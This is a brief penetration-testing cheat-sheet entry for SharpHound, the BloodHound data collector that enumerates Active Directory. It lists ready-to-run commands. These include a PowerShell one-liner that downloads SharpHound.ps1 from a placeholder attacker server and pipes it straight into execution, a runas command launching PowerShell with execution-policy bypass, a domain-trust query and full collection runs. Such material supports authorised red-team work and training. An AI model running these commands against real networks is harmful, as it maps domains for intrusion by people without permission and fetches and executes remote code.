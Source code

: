 # sharphound

% sharphound, Active directory enumeration, https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
#plateform/windows #target/remote #port/389 #port/631 #cat/AD/RECON

## download and  collect data
#tag/powershell 
https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
http://<local_ip>/windows/windows_weaponize/ps/SharpHound.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<server>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain_fqdn>
```

## collect data
#tag/powershell 
runas /netonly /user:admin\guest "powershell.exe -exec bypass"
nltest.exe /DOMAIN_TRUSTS
```powershell
import-module sharphound.ps1; invoke-bloodhound -collectionmethod <method|DCOnly> -domain <domain_fqdn>
```


## collect data
#tag/powershell 
```powershell
SharpHound.exe -c All -d inlanefreight.local<domain_fqdn>
```
